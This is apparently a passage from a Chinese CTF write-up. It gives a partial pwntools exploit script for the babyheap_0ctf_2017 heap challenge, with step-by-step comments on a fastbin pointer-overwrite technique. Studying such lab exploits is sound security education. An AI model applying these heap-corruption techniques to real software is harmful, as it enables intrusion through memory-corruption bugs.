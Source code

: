 > exp来自@yichen师傅：[https://www.yuque.com/hxfqg9/bin/bp97ri#sKWXZ](https://www.yuque.com/hxfqg9/bin/bp97ri#sKWXZ)
>

```c
#!/usr/bin/python
# -*- coding: utf-8 -*-
from pwn import *
context.log_level = 'debug'
p = process('./babyheap_0ctf_2017_patch')
elf = ELF('./babyheap_0ctf_2017_patch')

#首先是定义的一些函数，对应着程序的功能
def alloc(size):
    p.recvuntil("Command: ")
    p.sendline("1")
    p.recvuntil("Size: ")
    p.sendline(str(size))
def fill(idx, content):
    p.recvuntil("Command: ")
    p.sendline("2")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvuntil("Size: ")
    p.sendline(str(len(content)))
    p.recvuntil("Content: ")
    p.send(content)
def free(idx):
    p.recvuntil("Command: ")
    p.sendline("3")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
def dump(idx):
    p.recvuntil("Command: ")
    p.sendline("4")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvline()
    return p.recvline()
def unsorted_offset_arena(idx):
    word_bytes = context.word_size / 8
    offset = 4  # lock
    offset += 4  # flags
    offset += word_bytes * 10  # offset fastbin
    offset += word_bytes * 2  # top,last_remainder
    offset += idx * 2 * word_bytes  # idx
    offset -= word_bytes * 2  # bin overlap
    return offset

#首先申请4个fast chunk和1个small chunk
alloc(0x10)#index0
alloc(0x10)#index1
alloc(0x10)#index2
alloc(0x10)#index3
alloc(0x80)#index4

#free两个,这时候会放到fastbins中,而且因为是后进的,所以
#fastbin[0]->index2->index1->NULL
free(1)
free(2)

#这个时候我们去对index0进行fill操作,他就会把index2的指针的末位改成0x80,也就指向了index4
#解释一下,前面申请了4块0x10的,加上chunk的一些信息,合起来是0x80
#所以把那个末位改成0x80就指向了index4,这样chunk4就被放到了fastbins中
```
